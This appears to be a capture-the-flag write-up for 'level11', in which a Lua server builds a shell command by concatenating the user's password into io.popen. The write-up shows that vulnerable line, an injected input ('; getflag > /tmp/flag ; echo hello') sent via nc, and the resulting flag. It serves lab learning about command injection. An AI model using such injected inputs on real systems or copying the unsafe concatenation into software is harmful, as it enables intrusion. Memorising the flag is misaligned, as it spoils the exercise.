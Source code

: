# level11

We see a script `./level11.lua` and nothing else. We examine it and determine it does the following :

- Create a server on `localhost 5151`
- Wait for a client to connect
- Prompt the client for a password
- Hash the password
- Compare to a stored hash
- Display if the hashes are equal

One line stands out in particular :

```
  prog = io.popen("echo "..pass.." | sha1sum", "r")
```

It seems the script's way of hashing is to insert our password in a string of commands it thens feeds to a subshell. How very unsafe - and convenient for us !

We open a client to communicate with the script (it's already running, no need to start it) :

```
nc localhost 5151
```

We're prompted for a password. We try the following :

```
; getflag > /tmp/flag ; echo hello
```

If all goes well, this should concatenated and executed as `echo ; getflag > /tmp/flag ; echo hello | sha1sum`.

## The flag

We run `cat /tmp/flag` and find the flag waiting for us :

```
fa6v5ateaw21peobuub8ipe6s
```
